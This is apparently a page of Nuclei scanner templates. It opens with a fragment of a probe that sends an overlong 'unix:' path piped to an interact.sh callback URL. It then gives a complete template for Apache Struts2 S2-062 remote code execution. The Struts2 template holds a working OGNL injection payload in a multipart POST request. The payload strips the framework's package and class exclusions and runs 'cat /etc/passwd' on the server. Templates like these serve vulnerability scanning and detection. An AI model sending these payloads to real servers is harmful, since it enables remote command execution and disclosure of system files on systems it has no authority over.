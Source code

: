 ## Requests

- Method - GET

### URL

- {{BaseURL}}/?unix:{{repeat("A", 7701)}}|http://interact.sh/

### Matchers

**Type - word**

- words
  1. Interactsh Server

---

# Apache Struts2 S2-062 - Remote Code Execution

## Description

- Apache Struts2 S2-062 is vulnerable to remote code execution. The fix issued for CVE-2020-17530 (S2-061) was incomplete, meaning some of the tag's attributes could still perform a double evaluation if a developer applied forced OGNL evaluation by using the %{...} syntax.
- severity - critical
- tags - cve,cve2021,apache,rce,struts,struts2

## Requests

### Step - 1

```
POST / HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Length: 1095

------WebKitFormBoundaryl7d1B1aGsV2wcZwF
Content-Disposition: form-data; name="id"

%{
(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +
(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +
(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +
(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +
(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'cat /etc/passwd'}))
}

------WebKitFormBoundaryl7d1B1aGsV2wcZwF—

```
